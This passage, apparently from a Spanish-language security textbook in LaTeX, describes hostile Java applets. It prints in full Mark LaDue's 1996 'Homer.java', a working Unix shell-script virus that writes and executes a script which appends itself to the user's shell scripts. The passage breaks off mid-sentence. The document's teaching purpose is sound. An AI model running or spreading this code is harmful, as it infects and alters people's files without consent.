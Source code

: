 \subsection{Applets hostiles}
En los \'ultimos a\~nos, con la proliferaci\'on de la {\it web}, Java y 
Javascript, una nueva forma de {\it malware} se ha hecho popular. Se trata de
los denominados {\it applets} hostiles, {\it applets} que al ser descargados 
intentan monopolizar o explotar los recursos del sistema de una forma 
inapropiada (\cite{kn:mcg96}); esto incluye desde ataques cl\'asicos como 
negaciones de servicio o ejecuci\'on remota de programas en la m\'aquina 
cliente hasta amenazas mucho m\'as elaboradas, como difusi\'on de virus,
ruptura l\'ogica de cortafuegos o utilizaci\'on de recursos remotos para grandes
c\'alculos cient\'{\i}ficos.\\
\\Como ejemplo de {\it applet} hostil -- aunque este en concreto no es muy 
peligroso -- tenemos el siguiente c\'odigo, obra de Mark D. LaDue (1996):
\begin{quote}
\begin{verbatim}
anita:~/Security# cat Homer.java
import java.io.*;

class Homer {
    public static void main (String[] argv) {
    try {
        String userHome = System.getProperty("user.home");
        String target = "$HOME";
        FileOutputStream outer = new 
                 FileOutputStream(userHome + "/.homer.sh");
        String homer = "#!/bin/sh" + "\n" + "#-_" + "\n" +
        "echo \"Java is safe, and UNIX viruses do not exist.\"" + "\n" +
        "for file in `find " + target + " -type f -print`" + "\n" + "do" +
        "\n" + "    case \"`sed 1q $file`\" in" + "\n" +
        "        \"#!/bin/sh\" ) grep '#-_' $file > /dev/null" +
        " || sed -n '/#-_/,$p' $0 >> $file" + "\n" +
        "    esac" + "\n" + "done" + "\n" + 
        "2>/dev/null";
        byte[] buffer = new byte[homer.length()];
        homer.getBytes(0, homer.length(), buffer, 0);
        outer.write(buffer);
        outer.close();
        Process chmod = Runtime.getRuntime().exec("/usr/bin/chmod 777 " +
                        userHome + "/.homer.sh");
        Process exec = Runtime.getRuntime().exec("/bin/sh " + userHome +
                       "/.homer.sh");
        } catch (IOException ioe) {}
    }
}
anita:~/Security#
\end{verbatim}
\end{quote}
Este programa infecta los sistemas Unix con un virus que contamina ficheros
